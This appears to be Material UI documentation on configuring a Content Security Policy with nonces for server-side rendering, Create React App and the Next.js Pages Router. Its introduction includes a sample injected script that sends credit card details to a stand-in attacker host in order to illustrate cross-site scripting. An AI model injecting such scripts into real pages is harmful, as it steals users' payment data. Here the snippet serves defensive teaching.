 # Content Security Policy (CSP)

<p class="description">This section covers the details of setting up a CSP.</p>

## What is CSP and why is it useful?

CSP mitigates cross-site scripting (XSS) attacks by requiring developers to whitelist the sources their assets are retrieved from. This list is returned as a header from the server. For instance, say you have a site hosted at `https://example.com` the CSP header `default-src: 'self';` will allow all assets that are located at `https://example.com/*` and deny all others. If there is a section of your website that is vulnerable to XSS where unescaped user input is displayed, an attacker could input something like:

```html
<script>
  sendCreditCardDetails('https://hostile.example');
</script>
```

This vulnerability would allow the attacker to execute anything. However, with a secure CSP header, the browser will not load this script.

You can read more about CSP on the [MDN Web Docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CSP).

## How does one implement CSP?

### Server-Side Rendering (SSR)

To use CSP with Material UI (and Emotion), you need to use a nonce.
A nonce is a randomly generated string that is only used once, therefore you need to add server middleware to generate one on each request.

A CSP nonce is a Base 64 encoded string. You can generate one like this:

```js
import uuidv4 from 'uuid/v4';

const nonce = new Buffer(uuidv4()).toString('base64');
```

You must use UUID version 4, as it generates an **unpredictable** string.
You then apply this nonce to the CSP header. A CSP header might look like this with the nonce applied:

```js
header('Content-Security-Policy').set(
  `default-src 'self'; style-src 'self' 'nonce-${nonce}';`,
);
```

You should pass the nonce in the `<style>` tags on the server.

```jsx
<style
  data-emotion={`${style.key} ${style.ids.join(' ')}`}
  nonce={nonce}
  dangerouslySetInnerHTML={{ __html: style.css }}
/>
```

Then, you must pass this nonce to Emotion's cache so it can add it to subsequent `<style>`.

:::warning
If you were using `StyledEngineProvider` with `injectFirst`, you will need to replace it with `CacheProvider` from Emotion and add the `prepend: true` option.
:::

```js
const cache = createCache({
  key: 'my-prefix-key',
  nonce: nonce,
  prepend: true,
});

function App(props) {
  return (
    <CacheProvider value={cache}>
      <Home />
    </CacheProvider>
  );
}
```

### Create React App (CRA)

According to the [Create React App Docs](https://create-react-app.dev/docs/advanced-configuration/), a Create React App will dynamically embed the runtime script into index.html during the production build by default.
This will require a new hash to be set in your CSP during each deployment.

To use a CSP with a project initialized as a Create React App, you will need to set the `INLINE_RUNTIME_CHUNK=false` variable in the `.env` file used for your production build.
This will import the runtime script as usual instead of embedding it, avoiding the need to set a new hash during each deployment.

### Next.js Pages Router

For Next.js Pages Router, after [setting up a nonce](https://nextjs.org/docs/app/building-your-application/configuring/content-security-policy#nonces), you can pass it to the Emotion cache which you'll do it in two places:

First in the `_document.tsx`
```tsx
import {
 DocumentHeadTags,
 documentGetInitialProps,
 createEmotionCache,
} from '@mui/material-nextjs/v15-pagesRouter';
// other imports

type Props = DocumentInitialProps & DocumentHeadTagsProps & { nonce?: string };

export default function MyDocument(props: Props) {
  const { nonce } = props;

  return (
    <Html lang="en" className={roboto.className}>
      <Head>
        { /*...*/ } 
        <meta name="csp-nonce" content={nonce} />
        <DocumentHeadTags {...props} nonce={nonce} />
      </Head>
      <body>
        { /*...*/ }
        <NextScript nonce={nonce} />
      </body>
    </Html>
  );
}

MyDocument.getInitialProps = async (ctx: DocumentContext) => {
  const { req } = ctx;
  const nonce = req?.headers["x-nonce"];
  if (typeof nonce !== "string") {
    throw new Error('"nonce" header is missing');
  }

  const emotionCache = createEmotionCache({ nonce });
  const finalProps = await documentGetInitialProps(ctx, {
    emotionCache,
  });

  return { ...finalProps, nonce };
};
```

And then in `_app.tsx` if you're setting up the `AppCacheProvider`

```tsx
import {
 createEmotionCache,
} from '@mui/material-nextjs/v15-pagesRouter';
// other imports

export default function MyApp(props: AppProps & { nonce: string }) {
  const { Component, pageProps, nonce } = props;

  const emotionCache = useMemo(() => {
    const nonce = props.nonce || getNonce();

    return createEmotionCache({ nonce });
  }, [props.nonce]);

  return (
    <AppCacheProvider {...props} emotionCache={emotionCache}>
      {/* ... */}
    </AppCacheProvider>
  );
}

function getNonce(headers?: Record<string, string | string[] | undefined>) {
  if (headers) {
    return headers['x-nonce'] as string;
  }

  if (typeof document !== 'undefined') {
    const nonceMeta = document.querySelector('meta[name="csp-nonce"]');
    if (nonceMeta) {
      return nonceMeta.getAttribute('content') || undefined;
    }
  }

  return undefined;
}

MyApp.getInitialProps = async (appContext: AppContext) => {
  const nonce = getNonce(appContext.ctx?.req?.headers);
  if (typeof nonce !== "string") {
    throw new Error('"nonce" header is missing');
  }

  return { ...otherProps, nonce };
};
```

### styled-components

The configuration of the nonce is not straightforward, but you can follow [this issue](https://github.com/styled-components/styled-components/issues/2363) for more insights.
